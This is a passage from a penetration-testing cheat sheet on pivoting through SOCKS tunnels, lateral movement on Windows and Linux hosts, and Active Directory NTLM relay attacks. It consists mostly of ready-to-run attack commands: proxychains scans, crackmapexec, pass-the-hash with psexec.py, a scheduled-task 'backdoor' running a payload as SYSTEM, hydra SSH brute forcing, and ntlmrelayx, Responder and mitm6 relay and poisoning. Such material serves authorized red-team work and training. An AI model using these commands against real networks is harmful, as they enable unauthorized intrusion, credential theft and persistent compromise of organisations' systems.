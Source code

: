 ***

### V. 🔁 Pivot Enumeration (Through Tunnels)

Once SOCKS tunnel is active:

```bash
proxychains nmap -sT -Pn -p 80,445,3389 10.10.0.0/24
proxychains crackmapexec smb 10.10.0.0/24 -u user -p pass
proxychains smbclient -L \\10.10.0.5\\ -U user
```

🧠 **Tip:** Always pivot layer by layer — confirm internal network segments with `route print` and ARP sweeps before chaining.

***

### VI. 💣 Lateral Movement Techniques

#### 🔹 Windows (Internal)

| Technique          | Command / Tool                                                         |
| ------------------ | ---------------------------------------------------------------------- |
| **WinRM**          | `evil-winrm -i 10.10.0.5 -u user -p pass`                              |
| **SMB/IPC**        | `psexec.py corp.local/user@10.10.0.5 -hashes :NTLMHASH`                |
| **WMI**            | `wmiexec.py user@target`                                               |
| **RDP**            | `xfreerdp /v:10.10.0.5 /u:user /p:pass`                                |
| **Scheduled Task** | `schtasks /create /tn backdoor /tr payload.exe /sc onlogon /ru SYSTEM` |
| **Service Abuse**  | Replace or reconfigure service binary.                                 |

#### 🔹 Linux (Internal)

| Technique             | Command / Tool                                  |
| --------------------- | ----------------------------------------------- |
| **SSH Key Reuse**     | `ssh user@10.10.0.5`                            |
| **Password Reuse**    | `hydra -l user -P passlist.txt ssh://10.10.0.5` |
| **Rsync, NFS**        | Abuse writable shares.                          |
| **Cron Hijack**       | Replace cross-host sync scripts.                |
| **Ansible/SaltStack** | Misconfigured management tools.                 |

***

### VII. 🧠 Authentication Relay Attacks (AD)

| Attack                        | Description                      | Tool                                         |
| ----------------------------- | -------------------------------- | -------------------------------------------- |
| **LLMNR/NBNS Poisoning**      | Capture and relay NTLM           | `Responder`                                  |
| **NTLM Relay (SMB/HTTP)**     | Relay captured hashes            | `ntlmrelayx.py -tf targets.txt -smb2support` |
| **ADCS Relay (Cert Attack)**  | Relay NTLM to ADCS HTTP endpoint | `ntlmrelayx --adcs`                          |
| **Printer Bug (SpoolSample)** | Force authentication from DC     | `spoolsample.py`                             |
| **IPv6 MITM (MITM6)**         | DNS poisoning in AD              | `mitm6 -d corp.local`                        |
